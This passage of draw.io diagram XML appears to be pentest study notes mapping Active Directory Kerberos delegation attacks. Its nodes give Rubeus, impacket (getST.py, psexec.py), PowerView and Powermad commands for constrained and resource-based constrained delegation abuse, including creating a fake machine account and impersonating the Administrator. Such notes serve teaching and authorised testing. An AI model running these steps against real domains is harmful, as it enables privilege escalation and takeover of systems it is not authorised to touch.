        <mxCell id="VL_DeuJodb9uclPqMyuw-73" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="-782" y="3948" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-74" value="&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe s4u /impersonateuser:&amp;lt;user-to-impersonate&amp;gt; /msdsspn:&amp;lt;spn ie: www/WS01.fqdnl&amp;gt; /altservice:&amp;lt;alt-service ie: HTTP&amp;gt; /user:&amp;lt;user/machine-acc&amp;gt; /rc4:&amp;lt;hash&amp;gt; /ptt&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-782" y="4008" width="390" height="70" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-81" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-77" target="VL_DeuJodb9uclPqMyuw-79" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-83" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-77" target="VL_DeuJodb9uclPqMyuw-82" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-77" value="Verifying New Ticket" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="-1062" y="4158.5" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-79" value="&lt;div&gt;klist&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="-782" y="4158.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-80" value="&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; klist&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-782" y="4218.5" width="390" height="41.5" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-86" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-82" target="VL_DeuJodb9uclPqMyuw-84" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-98" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-82" target="VL_DeuJodb9uclPqMyuw-96" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-82" value="&lt;div&gt;Using the Ticket&amp;nbsp;&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="-1062" y="4368" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-84" value="&lt;div&gt;PS&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="-786" y="4400" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-85" value="&lt;div&gt;PS C:\Tools&amp;gt; Enter-PSSession &amp;lt;target&amp;gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-786" y="4460" width="390" height="70" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-88" value="&lt;div&gt;impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="-872" y="3368" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-89" value="findDelegation.py &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;pass&amp;gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-872" y="3428" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-91" value="&lt;div&gt;&lt;i&gt;The results show three types of delegation:&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;- Unconstrained: The account is configured with unconstrained delegation.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;- Constrained: The account uses constrained delegation, but without support for protocol transition.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;- Constrained with Protocol Transition: The account has constrained delegation enabled along with protocol transition support.&lt;/i&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-872" y="3478" width="390" height="122" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-92" value="&lt;div&gt;Impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="-346" y="3800" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-93" value="&lt;div&gt;kali$ getST.py -spn &amp;lt;service&amp;gt;/&amp;lt;targetname&amp;gt; &#39;&amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;pass&amp;gt; -impersonate &amp;lt;user-to-impersonate&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-346" y="3859" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-95" value="&lt;div&gt;&lt;i&gt;This will generate a ticket and save it as a ccache-file in the current directory. Once we have this valid ticket to access the service on target as the requested user, we can use it with psexec.py from impacket, after exporting its path to the environment variable KRB5CCNAME. This tool will update the SPN in this TGS on the fly to get an interactive shell. The -debug flag is added on purpose so you can see what&#39;s going on.&lt;/i&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-346" y="3906" width="390" height="110" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-96" value="&lt;div&gt;Impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="-786" y="4570" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-97" value="&lt;div&gt;kali$ export KRB5CCNAME=&amp;lt;ccache-file&amp;gt;&lt;/div&gt;&lt;div&gt;kali$ psexec.py -k -no-pass &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;@&amp;lt;host&amp;gt; -debug&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-786" y="4628" width="390" height="70" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-99" value="Resource-based constrained delegation" style="whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="3143" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-103" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-101" target="VL_DeuJodb9uclPqMyuw-102" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-101" value="&lt;div&gt;&lt;i&gt;RBCD relies on security descriptors instead of an allowed list of SPNs. An administrator defines which security principals can request Kerberos tickets for a user. When a service receives a request to grant access on behalf of another user, the KDC checks against the security descriptors in the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of the principal running the backend service.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;&lt;br&gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;If the security descriptor of the backend service matches that of the frontend service, then access will be granted.&amp;nbsp;&lt;br&gt;&lt;br&gt;&lt;div&gt;To carry out attacks against RBCD, we require two elements:&lt;/div&gt;&lt;div&gt;- Access to a user or group that has privileges to modify the msDS-AllowedToActOnBehalfOfOtherIdentity property on a computer. This is commonly possible if the user has GenericWrite, GenericAll, WriteProperty, or WriteDACL privileges on a computer object.&lt;/div&gt;&lt;div&gt;- Control of another object that has an SPN.&lt;/div&gt;&lt;/i&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="145" y="3203" width="290" height="347" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-106" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-102" target="VL_DeuJodb9uclPqMyuw-104" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-133" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-102" target="VL_DeuJodb9uclPqMyuw-132" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-6" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-102" target="-mCO11fVwZeK89IVwwup-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-102" value="&lt;div&gt;Search RBCD&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="3660" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-104" value="&lt;div&gt;PS&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="410" y="3566" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-105" value="&lt;div&gt;Import-Module C:\Tools\PowerView.ps1&lt;br&gt;$computers = Get-DomainComputer&lt;br&gt;$users = Get-DomainUser&lt;/div&gt;&lt;div&gt;$accessRights = &quot;GenericWrite&quot;,&quot;GenericAll&quot;,&quot;WriteProperty&quot;,&quot;WriteDacl&quot;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;# loop through each computer in the domain&lt;/div&gt;&lt;div&gt;foreach ($computer in $computers) {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; # get the security descriptor for the computer&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; $acl = Get-ObjectAcl -SamAccountName $computer.SamAccountName -ResolveGUIDs&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; # loop through each user in the domain&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; foreach ($user in $users) {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; # check if the user has the required access rights on the computer object&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; $hasAccess = $acl | ?{$_.SecurityIdentifier -eq $user.ObjectSID} | %{($_.ActiveDirectoryRights -match ($accessRights -join &#39;|&#39;))}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; if ($hasAccess) {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; Write-Output &quot;$($user.SamAccountName) has the required access rights on $($computer.Name)&quot;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;}&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;strokeColor=light-dark(#ff0000, #ededed);strokeWidth=3;" parent="1" vertex="1">
          <mxGeometry x="410" y="3626" width="390" height="360" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-111" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-107" target="VL_DeuJodb9uclPqMyuw-109" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-113" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-107" target="VL_DeuJodb9uclPqMyuw-112" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-3" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-107" target="-mCO11fVwZeK89IVwwup-1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-107" value="&lt;div&gt;Create a Fake Computer&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="4158.5" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-109" value="&lt;div&gt;PowerMad&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="410" y="4198.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-110" value="&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\Powermad.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; New-MachineAccount -MachineAccount &amp;lt;machine-name&amp;gt; -Password $(ConvertTo-SecureString &amp;lt;password&amp;gt; -AsPlainText -Force)&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="410" y="4258" width="390" height="82" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-116" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-112" target="VL_DeuJodb9uclPqMyuw-114" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-120" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#3333FF;" parent="1" source="VL_DeuJodb9uclPqMyuw-112" target="VL_DeuJodb9uclPqMyuw-117" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-14" value="WIN" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="VL_DeuJodb9uclPqMyuw-120">
          <mxGeometry x="-0.74" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-9" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-112" target="-mCO11fVwZeK89IVwwup-7">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-12" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.75;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-112" target="-mCO11fVwZeK89IVwwup-11">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="320" y="4960" />
              <mxPoint x="930" y="4960" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-13" value="LINUX" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-12">
          <mxGeometry x="-0.844" y="2" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-112" value="&lt;div&gt;Modify the target computer&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="4514" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-114" value="&lt;div&gt;PS&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="410" y="4514" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-115" value="&lt;div&gt;Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;&amp;nbsp;$ComputerSid = Get-DomainComputer &amp;lt;computer-name&amp;gt; -Properties objectsid | Select -Expand objectsid&lt;/div&gt;&lt;div&gt;$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList &quot;O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))&quot;&lt;/div&gt;&lt;div&gt;$SDBytes = New-Object byte[] ($SD.BinaryLength)&lt;/div&gt;&lt;div&gt;$SD.GetBinaryForm($SDBytes, 0)&lt;/div&gt;&lt;div&gt;$credentials = New-Object System.Management.Automation.PSCredential &quot;&amp;lt;fqdn&amp;gt;\&amp;lt;user&amp;gt;&quot;, (ConvertTo-SecureString &quot;&amp;lt;password&amp;gt;&quot; -AsPlainText -Force)&lt;/div&gt;&lt;div&gt;Get-DomainComputer &amp;lt;named-target&amp;gt; | Set-DomainObject -Set @{&#39;msds-allowedtoactonbehalfofotheridentity&#39;=$SDBytes} -Credential $credentials -Verbose&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="410" y="4572" width="390" height="232" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-121" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-117" target="VL_DeuJodb9uclPqMyuw-118" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-125" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#3333FF;" parent="1" source="VL_DeuJodb9uclPqMyuw-117" target="VL_DeuJodb9uclPqMyuw-122" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-117" value="&lt;div&gt;Get Computer Hashes with Rubeus&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="5004" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-118" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="400" y="5003.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-119" value="&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe hash /password:&amp;lt;computer-pass&amp;gt; /user:&amp;lt;computer-name&amp;gt; /domain:&amp;lt;fqdn&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="400" y="5061.5" width="390" height="52.5" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-126" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-122" target="VL_DeuJodb9uclPqMyuw-123" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-130" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#3333FF;" parent="1" source="VL_DeuJodb9uclPqMyuw-122" target="VL_DeuJodb9uclPqMyuw-127" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-150" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.75;exitDx=0;exitDy=0;entryX=1;entryY=0.25;entryDx=0;entryDy=0;fillColor=#e1d5e7;strokeColor=#FF8000;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-122" target="VL_DeuJodb9uclPqMyuw-71" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="-20" y="5259" />
              <mxPoint x="-20" y="4985" />
              <mxPoint x="-360" y="4985" />
              <mxPoint x="-360" y="3876" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-122" value="&lt;div&gt;Impersonate the Administrator&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="5214" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-123" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="390" y="5214" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-124" value="&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe s4u /user:&amp;lt;computer-name&amp;gt; /rc4:&amp;lt;hash&amp;gt; /impersonateuser:&amp;lt;user-to-impersonate&amp;gt; /msdsspn:&amp;lt;service&amp;gt;/&amp;lt;target&amp;gt;.&amp;lt;fqdn&amp;gt; /ptt&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="390" y="5272" width="390" height="72" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-131" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-127" target="VL_DeuJodb9uclPqMyuw-128" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-141" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="VL_DeuJodb9uclPqMyuw-127" target="VL_DeuJodb9uclPqMyuw-138" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-127" value="&lt;div&gt;Review Tickets in the Current Terminal&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="5394" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-128" value="&lt;div&gt;klist&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="390" y="5394" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-129" value="&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; klist&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="390" y="5452" width="390" height="32" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-136" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;jumpStyle=arc;" parent="1" source="VL_DeuJodb9uclPqMyuw-132" target="VL_DeuJodb9uclPqMyuw-117" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="130" y="3932" />
              <mxPoint x="130" y="5034" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-149" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fillColor=#e1d5e7;strokeColor=#FF8000;jumpStyle=arc;dashed=1;" parent="1" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="80" y="3932" />
              <mxPoint x="80" y="5244" />
            </Array>
            <mxPoint x="260" y="3932" as="sourcePoint" />
            <mxPoint x="240" y="5244" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-15" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;jumpStyle=arc;strokeColor=#FF0000;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-132" target="-mCO11fVwZeK89IVwwup-11">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="180" y="3932" />
              <mxPoint x="180" y="4980" />
